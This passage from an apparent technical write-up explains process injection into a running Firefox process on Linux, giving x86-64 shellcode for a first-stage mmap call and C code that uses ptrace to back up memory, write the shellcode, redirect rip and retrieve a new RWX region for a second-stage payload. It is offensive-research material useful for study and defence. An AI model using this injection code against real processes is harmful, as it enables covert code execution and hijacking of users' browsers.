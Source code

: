 ```asm
push 0x9
pop rax

syscall ; mmap(void *addr, size_t len, int prot, int flags, int fd, off_t offset)
int3 ; Raise a SIGTRAP signal 
```

> The above shellcode was written in a region that obviously had existing data and since we do not want to disrupt normal execution of the remote Firefox Process, we will create a backup and copy it back after the first stage-payload is done with execution.

The above shellcode is written to the returned address and the `rip` register is modified to point to this address for code execution. The `int3` instruction added at the end of the above shellcode is used as a trigger to let us know that our shellcode was succesfully executed. This is because of a returned `SIGTRAP` signal a technique described at [1].

The following code snippet performs the process described above.

```c
	PADDRESS address = enumAddress(pid);

        if(address == NULL) goto end;


        //Read OLD data from the return address above
        dataRead(pid, backup, address->start_address, sizeof(remote_mmap));
        fprintf(stderr, "[+] Data backup complete!\n\n");

        //shellcode injection into this address.
        dataWrite(pid, address->start_address, (unsigned long *) remote_mmap, sizeof(remote_mmap));

        //update RIP to point to our 'shellcode'

        regs.rip = (unsigned long) address->start_address;

        //set registers to the new registers
        ptrace(PTRACE_SETREGS, pid, NULL, &regs);

        //continue execution
        ptrace(PTRACE_CONT, pid, NULL, NULL);
        waitpid(pid, &status, WUNTRACED);

		//Wait for the SIGTRAP signal and check `rax` for the mapped page
        if(WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP){
                fprintf(stderr, "[+] Mmap() execution was success!!\n");

                ptrace(PTRACE_GETREGS, pid, NULL, &regs);
		
				if((long)regs.rax < 0) goto end;
		
                address->mmaped_address = (unsigned long *) regs.rax;
                fprintf(stderr, "[+] mmap'd address: %p\n", address->mmaped_address);

                goto shellcodeExec;

        }
```
The memory address of the newly allocated `(RWX)` region is returned to be used in the second-stage payload. 
